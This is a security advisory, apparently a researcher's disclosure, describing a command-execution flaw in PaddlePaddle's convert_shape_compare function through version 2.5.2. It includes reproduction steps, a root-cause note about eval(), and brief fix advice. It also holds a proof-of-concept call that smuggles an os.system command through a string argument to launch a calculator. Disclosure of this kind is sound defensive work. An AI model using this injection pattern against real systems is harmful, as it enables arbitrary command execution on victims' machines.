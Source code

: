 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability Version: <= 2.5.2  
Vulnerability Type: Command Execution  
Vulnerability Vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability Location: paddle/jit/dy2static/convert_operators.py  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause user's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which can run Python3 and Windows10(or other os if you construct a suitable payload)  

1、Download paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct payloads to bypass the filter and result in user's command execution
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

## [](#header-3)FIX: 

1、do not use eval()  
2、filter more  

discovered by leeya_bug  
2023/12/15  

-------------------
2023/12/16 update: uppercase letter 

